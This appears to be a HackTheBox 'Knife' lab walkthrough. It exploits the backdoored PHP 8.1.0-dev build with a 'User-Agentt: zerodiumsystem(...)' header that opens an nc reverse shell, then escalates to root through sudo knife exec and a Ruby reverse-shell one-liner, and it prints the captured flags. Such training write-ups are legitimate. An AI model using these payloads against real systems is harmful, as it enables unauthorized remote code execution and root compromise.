


# Knife - HackTheBox
Linux, 20 Base Points, Easy

## Machine


 
## Knife Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nmap -sC -sV -oA nmap/Knife 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-22 22:16 IDT
Nmap scan report for 10.10.10.242
Host is up (0.097s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.06 seconds
```

By observing port 80 [http://10.10.10.242](10.10.10.242) we can see the following web page:


By intercepting the request using [BurpSuite](https://portswigger.net/burp) we can see the following response header (```X-Powered-By: PHP/8.1.0-dev```):


According to ```X-Powered-By: PHP/8.1.0-dev``` HTTP response header we can see ```dev``` which is a branch of ```PHP/8.1.0```.

We know about [phps-git-server-hacked-to-insert-secret](https://thehackernews.com/2021/03/phps-git-server-hacked-to-insert-secret.html), basically, PHP's Git Server Hacked to Insert Secret Backdoor to Its Source code.

According to the article, PHP developer Jake Birchall said: *"PHP code from within the ```User-Agent``` HTTP header ("HTTP_USER_AGENTT"), if the string starts with ```'zerodium'```"*.

By sending HTTP request with ```User-Agentt: zerodiumphpinfo();``` header we get the following response:
```
HTTP/1.1 200 OK
Date: Sat, 22 May 2021 21:39:17 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 79254
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009;
...
```


Let's use ```User-Agentt``` header to get a reverse shell:
```
GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4242 >/tmp/f');
Content-Length: 0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

And we get a reverse shell as ```james``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 56646
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/james/user.txt
699a31713fe58b945d2f98b12884d3e8

```

Like that, we get the user flag ```699a31713fe58b945d2f98b12884d3e8```.

### Root

By running the command ```sudo -l``` we get:
```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
$ 

```

We can see we can run ```/usr/bin/knife``` as root.

By reading about [knife exec](https://docs.chef.io/workstation/knife_exec/) we know that we can run ```ruby```  script using ```knife exec```, Let's create the following ```ruby``` script to get a reverse shell (```/tmp/shell.rb```):
```ruby
exit if fork;c=TCPSocket.new("10.10.14.23","4243");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}
```

Run it:
```console
$ sudo knife exec /tmp/test.rb
```

We get a reverse shell as ```root```:
```console
┌─[evyatar@parrot]─[/hackthebox/Knife]
└──╼ $ nc -lvp 4243
listening on [any] 4243 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.242] 47266
whoami
root
cat /root/root.txt
df9ae6a1e02bed5f931384556dda1c4b

```

And we get the root flag ```df9ae6a1e02bed5f931384556dda1c4b```.

